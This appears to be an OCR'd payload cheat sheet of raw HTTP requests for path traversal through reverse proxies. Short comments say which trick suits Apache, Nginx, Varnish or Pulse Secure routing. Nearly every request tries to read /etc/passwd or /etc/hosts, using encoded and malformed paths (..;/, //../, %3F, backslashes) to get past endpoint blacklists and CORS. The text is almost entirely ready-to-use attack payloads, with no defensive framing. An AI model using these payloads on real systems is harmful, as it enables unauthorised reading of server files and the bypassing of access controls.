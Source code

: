 ```http
GET /Endpoint-To-Proxy/#/../../../../../../../../../../etc/passwd HTTP/1.1
Host: www.company.com
User-Agent: Mozilla/5.0
Referer: https://previous.com/path
Origin: https://www.company.com
---------------------------------------
GET /../../../../../../../etc/passwd;/../Endpoint-To-Proxy HTTP/1.1
Host: www.company.com
User-Agent: Mozilla/5.0
---------------------------------------
GET /Endpoint-To-Proxy../../../../../../../etc/passwd HTTP/1.1
Host: www.company.com
--------------------------------------------
GET /Endpoint-To-Proxy/..\..\..\..\..\..\..\..\..\..\..\..\..\..\etc\passwd HTTP/1.1
Host: www.company.com
User-Agent: Mozilla/5.0
------------------------------------------
Try To Inject \..\.\..\.\..\.\..\.\..\.\..\.\Internal-Endpoint OR
\..\..\..\.\..\..\Internal-Endpoint\..\..\..\..\..\etc\passwd%3F.js
GET /Endpoint-To-Proxy\..\.\..\.\..\.\..\.\Internal-Endpoint HTTP/1.1
Host: www.company.com
User-Agent: Mozilla/5.0
---------------------------------------------
Let’s Assume There Is Routing To Pulse Secure SSL VPN So , 
Try To Inject To Get File etc/hosts
GET /Endpoint-To-Proxy/dana-na/../dana/html5acc/guacamole/../
../../../../../etc/hosts?/dana/html5acc/guacamole/# HTTP/1.1
Host: www.company.com
User-Agent: Mozilla/5.0
----------------------------------------------------
s Apache As Reverse Proxy Try To Use /..// To Change Route Of Endpoints
GET /Endpoint-To-Proxy/..//../../../../../../etc/passwd HTTP/1.1
Host: www.company.com
User-Agent: Mozilla/5.0
--------------------------------------------------
If There Is Apache As Reverse Proxy Try To Use %3F To Bypass Blacklist Of
Endpoints
GET /Endpoint-To-Proxy/.git%3FAllowed HTTP/1.1
Host: www.company.com
User-Agent: Mozilla/5.0
------------------------------------------------
If There Is Nginx As Reverse Proxy 
AND Apache As Backend Try To Use //../ To Change Route Of Endpoints
GET /Endpoint-To-Proxy/../../../../../../../etc/passwd//../ HTTP/1.1
Host: www.company.com
User-Agent: Mozilla/5.0
-------------------------------------------------------
If There Is Nginx As Reverse Proxy Try To Use ..;/ To Bypass Blacklist Of Endpoints 
OR Bypass CORS
GET /Endpoint-To-Proxy/..;/../../../../../../etc/passwd HTTP/1.1
Host: www.company.com
User-Agent: Mozilla/5.0
---------------------------------------
GET /../../../../etc/passwd/..;/Endpoint-To-Proxy HTTP/1.1
Host: www.company.com
User-Agent: Mozilla/5.0
----------------------------------------
GeT /Endpoint-To-Proxy/../../../../../../etc/passwd HTTP/1.1
Host: www.company.com
User-Agent: Mozilla/5.0
------------------------------------------
# If There Is Varnish As Reverse Proxy
GeT /Endpoint-To-Proxy/../../../../../../etc/passwd HTTP/1.1
```